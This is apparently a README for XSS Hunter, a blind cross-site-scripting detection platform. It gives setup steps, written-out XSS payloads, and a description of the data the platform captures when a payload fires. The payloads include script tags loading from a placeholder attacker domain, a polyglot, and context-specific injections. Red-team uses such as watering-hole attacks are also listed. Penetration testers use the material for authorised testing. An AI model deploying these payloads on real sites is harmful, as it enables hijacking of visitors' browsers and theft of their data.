 # XSS Hunter - Blind XSS Detection Platform

Collaborative platform for finding blind XSS vulnerabilities through payload distribution.

## Setup

### Self-Hosted Installation
```bash
# Clone repository
git clone https://github.com/mandatoryprogrammer/xsshunter-express.git
cd xsshunter-express

# Install dependencies
npm install

# Configure environment
cp .env.example .env
# Edit .env with your settings

# Start server
npm start
```

### Cloud Service
Use the hosted version at xsshunter.com for immediate testing.

## Payload Generation

### Basic JavaScript Payload
```javascript
"><script src="https://your-xss-hunter-domain.com"></script>
```

### Blind XSS Payloads
```javascript
// Standard payload
'><script src=https://yourdomain.xss.ht></script>

// Polyglot payload
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e

// DOM-based payload
';alert('XSS');//
```

### Context-Specific Payloads
```javascript
// Attribute context
" onmouseover="alert('XSS')"

// JavaScript context
';alert('XSS');//

// CSS context  
</style><script>alert('XSS')</script>
```

## Detection Features

### Email Notifications
Automatic email alerts when payloads execute with:
- Target URL and referer
- User agent information
- IP address and geolocation
- Screenshot of executed payload
- DOM content at execution time

### Payload Correlation
- Unique payload identifiers
- Execution timeline tracking
- Multiple payload management
- Campaign organization

## Advanced Features

### Custom Payloads
Create specialized payloads for specific applications:
- File upload contexts
- JSON injection points
- Header injection scenarios
- Cookie-based XSS

### Reporting Integration
- Vulnerability report generation  
- Evidence collection and organization
- Client reporting capabilities
- Integration with security tools

## Use Cases

### Penetration Testing
- Black box application testing
- Internal application assessment
- Bug bounty hunting
- Security auditing

### Red Team Operations
- Phishing payload injection
- Watering hole attacks
- Supply chain compromise
- Social engineering campaigns

## Legal Considerations

Only deploy payloads on applications you own or have explicit written permission to test. Unauthorized XSS testing may violate computer fraud and abuse laws.

## Best Practices

- Use unique identifiers for tracking
- Document payload placement locations
- Monitor for false positives
- Coordinate with application owners
- Follow responsible disclosure guidelines
